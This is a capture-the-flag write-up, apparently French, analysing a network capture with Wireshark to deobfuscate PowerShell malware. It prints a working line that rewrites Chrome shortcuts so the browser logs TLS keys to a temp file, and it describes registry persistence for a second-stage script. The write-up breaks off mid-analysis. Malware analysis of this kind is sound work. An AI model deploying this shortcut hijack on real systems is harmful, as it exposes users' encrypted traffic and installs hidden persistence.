 # Darts Bank

## Disclaimer
```
Attention : ce challenge contient du code à portée malveillante. Bien que l'auteur se soit efforcé de le rendre relativement inoffensif, il convient de prendre les mesures d'isolation adéquates s'il devait être exécuté. L'organisation décline toute responsabilité en cas de dommages à votre système.
```

## Speech
```
Je me dirigeais vers l'épreuve de lancer de fléchettes quand j'ai fait une découverte horrifiante : on m'a dérobé ma fléchette porte-bonheur ! Pourtant, cette dernière était bien sécurisée grâce à ma banque à fléchettes, DartsBank, et cette dernière a toutes les protections qui s'imposent... Même le petit cadenas vert ! Je crois avoir remarqué des choses étranges sur le réseau, vous pouvez y jeter un œil ?
```

## MD5
`a5d6bb16aaebbaae69de51ba653aa358`

## Analysis
1. Open the pcap in Wireshark
![Packets analysis](./img/00_packet_hierarchy.png)
2. Lots of TCP/HTTP, follow the TCP stream :
![powershell malware](./img/01_found_something.png)
3. Copy/paste in a new file (*powershell.mal*)
4. I try to deob
    - First look for semicolon and add new line after each ";" we finish with 5 line :
        - the first one is a base64 command, let's decode : `foreach($bbbbbbbbbbbb in Get-ChildItem -Recurse -Path C:\Users -ErrorAction SilentlyContinue -Include *.lnk){$bbbbbbbbbbbbbbb=New-Object -COM WScript.Shell;$bbbbbbbbbbbbbbbb=$bbbbbbbbbbbbbbb.CreateShortcut($bbbbbbbbbbbb);if($bbbbbbbbbbbbbbbb.TargetPath -match 'chrome\.exe$'){$bbbbbbbbbbbbbbbb.Arguments="--ssl-key-log-file=$env:TEMP\defender-res.txt";$bbbbbbbbbbbbbbbb.Save();}}` Looks like is doing something with the link of chrome.exe
        - the second is a very long base64 string
        - the third execute another base64 command : `Start-Process -WindowStyle Maximized https://hello.smyler.net` Nice one Smyler :)
        - on the fourth the very long base64 is written to run.ps1 
        - the last one put the run.ps1 in the registry
    - I decode run.ps1
5. run.ps1 seems to be a bit hard to decode, so let's fire up windows
![run.ps1](./img/02_run_ps1.png)
6. I modify top print things and not sleep. ERROR !! We need a file created by the first stage
